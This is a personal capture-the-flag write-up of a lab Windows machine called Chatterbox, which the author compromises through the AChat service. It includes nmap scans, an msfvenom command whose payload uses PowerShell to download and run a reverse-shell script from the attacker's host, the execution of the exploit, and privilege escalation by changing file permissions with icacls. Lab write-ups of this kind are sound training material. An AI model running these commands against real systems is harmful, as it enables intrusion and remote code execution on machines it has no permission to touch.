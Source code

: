 **Ping**
![[Pasted image 20240629131330.png]]

Nmap Scans
```
mapit 10.10.10.74
```

Nmap Default Scan
![[Pasted image 20240629131450.png]]

Nmap Service and Script Scan
![[Pasted image 20240629131630.png]]
![[Pasted image 20240629131723.png]]

Nmap All Port Scan
![[Pasted image 20240629131809.png]]

Service and Script Scan for the new ports
```
nmap 10.10.10.74 -p 9255,9256 -sV -sC  -A
```
![[Pasted image 20240629140310.png]]

This system might be vulnerable to Eternal blue, because  it is running **windows 7 professional 7601** will try this.

Eternal blue didn't work, will go with AChat on Port 9256

Exploit code:https://github.com/mpgn/AChat-Reverse-TCP-Exploit

First will generate a shellcode using MsfVenom
```
msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell -c iex(new-object net.webclient).downloadstring('http://10.10.14.2/rev.ps1')" -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python > shellcode
```
![[Pasted image 20240702114750.png]]

Will update the shell code in the python exploit code AChat_Exploit.py
![[Pasted image 20240702114829.png]]

Also we need to update the server ip in the exploit code AChat_Exploit.py
![[Pasted image 20240702114902.png]]

Will Jump to Initial Foothold.....!

Now will run the exploit
```
python2 AChat_Exploit.py
```
![[Pasted image 20240702115011.png]]

I have already hosted my python web server and started Netcat listener
Got Reverse Shell
![[Pasted image 20240702115126.png]]
Got a Shell as Alfred
![[Pasted image 20240702115206.png]]

User.txt
![[Pasted image 20240702115617.png]]



Will Jump to Privilege Escalation.....!

We can list the content of the Admins directory, but can't read root.txt
![[Pasted image 20240702120357.png]]

Will check our Permissions on the Admin's desktop
![[Pasted image 20240702120443.png]]
We have full access, that means we can change permissions of the files that are in Desktop

As of now only admin as access
![[Pasted image 20240702120635.png]]

Will grant full access on root.txt to Alfred
```
icacls root.txt /grant alfred:F
```
![[Pasted image 20240702120951.png]]

Now We can read the root.txt
![[Pasted image 20240702121045.png]]





Done With Chatterbox......:)